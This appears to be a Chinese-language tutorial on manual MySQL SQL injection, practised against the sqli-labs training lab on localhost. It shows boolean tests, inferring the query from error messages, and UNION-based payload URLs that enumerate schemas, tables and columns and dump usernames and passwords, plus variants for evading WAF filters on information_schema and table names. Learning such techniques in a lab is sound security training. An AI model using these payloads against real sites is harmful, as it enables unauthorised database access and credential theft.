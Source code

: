 # 0x00 简介

在MySQL里面注入和搭建环境来其实差不多，推荐使用sqli-labs来练练手，网上一堆的方法也是我们从学以来用到的

加引号 报错 `and 1=1` `and 1=2` 然后SQLmap 一丢有waf就凉凉，可能and的时候就凉了，所以手工是也算个必修课吧。

直接用 `and 1=1`  一类的多属于 数字型注入 `select * from admin where id = $id;` 被包裹起来的就不行的，所以
一般要看报错的语句，当然也不是加个引号没报错就没了，具体分很多情况的。（废话多了点顺便讲清楚吧）




# 0x01 第一个注入

and 是一个逻辑符号 要求两边同时成立,所以and 这边是什么可以尽情发挥大家的才能 比如 and true=1 ？，为什么要这么写，因为某狗判断的就是 and 这边的字符类型
大家可以去了解了解 MySQL隐式转化。

```
mysql> select * from users where id = "1" and 1=1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id = "1" and 1=2;
Empty set (0.00 sec)

```

说了这么多我们就拿sqli-labs的第一关来演示一下

![mysql](./img/1.6.1.png)

看到报错语句

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

```


其中`''1'' LIMIT 0,1'` 最外层的是它出错给你的字符串不用看，所以为`'1'' LIMIT 0,1` 应为我们的单引号没闭合所以造成了出错 同时知道了 它的后面有个 `LIMIT 0,1` 所以反推大概的语句为 `select x,x from xxx where x='id' limit 0,1` 看到报错信息我们应该要能反推它的语句，有利于我们进一步注入，下面使用联合注入。


首先都是老套路 `order by xx ` 来判断它的列数，因为 `order by` 是根据列来排序的 （排序第几列）


```
http://127.0.0.1/sqli/Less-1/?id=-2' union select 1,schema_name,3 from information_schema.schemata limit 2,1 -- +

```

通过limit 0,1来控制前端的显位的数据(从第0条取一条) 如果是过滤逗号 。 想用分页可以使用 `0 offset 1` 意思是从第0条开始选一条当然还有join分页这些都在后面讲了。


```
http://127.0.0.1/sqli/Less-1/?id=-2' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' -- +
```

当然你想直接爆当前的库的表 不妨这样写 `table_schema=database()` 为了避免单引号你也可以使用hex后的数据 `table_schema=0x7365637572697479`

使用`group_concat()` 函数把表名都聚合起来，更加方便。


```
http://127.0.0.1/sqli/Less-1/?id=-2' union select 1,group_concat(column_name),3 from information_schema.columns where table_name=0x7573657273 -- +
```

爆出字段

```
http://127.0.0.1/sqli/Less-1/?id=-2' union select 1,group_concat(username,0x7C,password),3 from users-- +

```

爆出数据 在 `group_concat()` 被过滤的情况下我们可以使用其他的来替换 推荐大家查阅mysql 函数表


当我们使用 `information_schema.schemata` 时被拦截了,我们可以这样绕过

``` 

`information_schema`.`schemata `  
information_schema/**/.schemata
information_schema/*!*/.schemata
information_schema%0a.schemata

```

也有人遇到过这种情况 users表被拦截 怎么绕过呢，其实也一样

```
security.users 数据库名 加表名

security.`users`

```



# 0x02 文末

#### 本文如有错误，请及时提醒，避免误导他人

* author：404